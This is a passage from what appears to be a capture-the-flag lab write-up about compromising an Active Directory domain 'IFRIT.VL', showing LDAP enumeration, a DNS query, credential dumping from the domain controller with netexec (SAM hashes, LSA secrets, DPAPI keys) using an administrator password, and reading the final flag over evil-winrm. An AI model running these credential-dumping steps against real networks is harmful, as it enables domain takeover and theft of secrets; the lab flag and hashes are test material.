SMB         172.16.41.11    445    DC01             Victor.Johnson                2024-07-14 08:53:17 0        
SMB         172.16.41.11    445    DC01             [*] Enumerated 83 local users: IFRIT

```

I see only 2 computers is this domain:

```bash
└─$ netexec ldap 172.16.41.11 --use-kcache --computers 
LDAP        172.16.41.11    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:IFRIT.VL) (signing:None) (channel binding:No TLS cert) 
LDAP        172.16.41.11    389    DC01             [+] IFRIT.VL\it-ifrit$ from ccache 
LDAP        172.16.41.11    389    DC01             [*] Total records returned: 2
LDAP        172.16.41.11    389    DC01             DC01$
LDAP        172.16.41.11    389    DC01             VAULT$
                                                             
```

My previous attempt to get to the EU realm proven me that I have to pwn this new domain first before getting to the other one.

That vault machine is an orphan one:

```bash
└─$ dig A @172.16.41.11 vault.ifrit.vl

; <<>> DiG 9.20.20-1-Debian <<>> A @172.16.41.11 vault.ifrit.vl
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 64737
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;vault.ifrit.vl.			IN	A

;; AUTHORITY SECTION:
ifrit.vl.		3600	IN	SOA	dc01.ifrit.vl. hostmaster.ifrit.vl. 131 900 600 86400 3600

;; Query time: 452 msec
;; SERVER: 172.16.41.11#53(172.16.41.11) (UDP)
;; WHEN: Sun Apr 05 22:29:13 CEST 2026
;; MSG SIZE  rcvd: 103

```

# End of the line

With the credentials saved in the Password manager I can now dump all the secrets from the hives:

```bash
─$ netexec smb 172.16.41.11 -u Administrator -p GoldenBuddaRests85 --sam --lsa --dpapi
SMB         172.16.41.11    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.11    445    DC01             [+] ifrit.vl\Administrator:GoldenBuddaRests85 (Pwn3d!)
SMB         172.16.41.11    445    DC01             [*] Dumping SAM hashes
SMB         172.16.41.11    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:6072e80f4e8968b9b3dcd87725ca3069:::
SMB         172.16.41.11    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.11    445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[16:47:16] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                      regsecrets.py:436
SMB         172.16.41.11    445    DC01             [+] Added 3 SAM hashes to the database
SMB         172.16.41.11    445    DC01             [*] Dumping LSA secrets
SMB         172.16.41.11    445    DC01             IFRIT\DC01$:aes256-cts-hmac-sha1-96:35ecc79b275cf85b36755a84387f6ff6b9a550dd800c147b6520a6f58bf78ef1
SMB         172.16.41.11    445    DC01             IFRIT\DC01$:aes128-cts-hmac-sha1-96:1d69ccb4dc178879c26bfd3e397a7f40
SMB         172.16.41.11    445    DC01             IFRIT\DC01$:des-cbc-md5:0e5738ab29832c0d
SMB         172.16.41.11    445    DC01             IFRIT\DC01$:plain_password_hex:cf4458d31d547a82a6057d07c2e19bdccb762ceea20bbdc10e0914677b5250c1f5e20c4c4270c88b84e2c3414cd1f54415d163717379d415819653714554234093b089fb4a868032429198a4a30386b94dcfabc0bf35bbc3e24d168d3f9ce867185019ecd6d449b8a5c7fbfb5b3c72bfe0e81d4e13b21abc4932d7493e7f42ed952837564d5d3df4bb5b0773559e0e6f5b6b52c01af7faf5dd0354793cf5e2bb0cb4bfa54c82342fd751ae7dcfaac097338e22e300baa1aa1f03806a3923d0837d52b7fbfbb904ecaef44d11323a6f170b121b9367be23eb2fb000ef58fe4e7259f5089d3f09645e13d45e4826214f9f
SMB         172.16.41.11    445    DC01             IFRIT\DC01$:aad3b435b51404eeaad3b435b51404ee:95dbcfc097c33885ca43f8e6b6e3cd62:::
SMB         172.16.41.11    445    DC01             dpapi_machinekey:0x2ce7c261df93e5aa1a5f120a376d737d79d6e3a8
dpapi_userkey:0x23fd259bd18c9421d5acba04d877bd8bdd302789
SMB         172.16.41.11    445    DC01             [+] Dumped 6 LSA secrets to /home/millycash/.nxc/logs/lsa/DC01_172.16.41.11_2026-04-06_164651.secrets and /home/millycash/.nxc/logs/lsa/DC01_172.16.41.11_2026-04-06_164651.cached
SMB         172.16.41.11    445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.41.11    445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.11    445    DC01             [+] Got 7 decrypted masterkeys. Looting secrets...

```

I don't think dumping the NTDS is required anymore so i will go straight to the point and grab the last flag:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         4/24/2025  11:16 PM             39 master.txt                                                            
-a----         7/14/2024  12:56 AM           2308 Microsoft Edge.lnk                                                    


evil-winrm-py PS C:\Users\Administrator\Desktop> cat master.txt
IFRIT{460bd2383edcc0efe6be5689566c8541}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```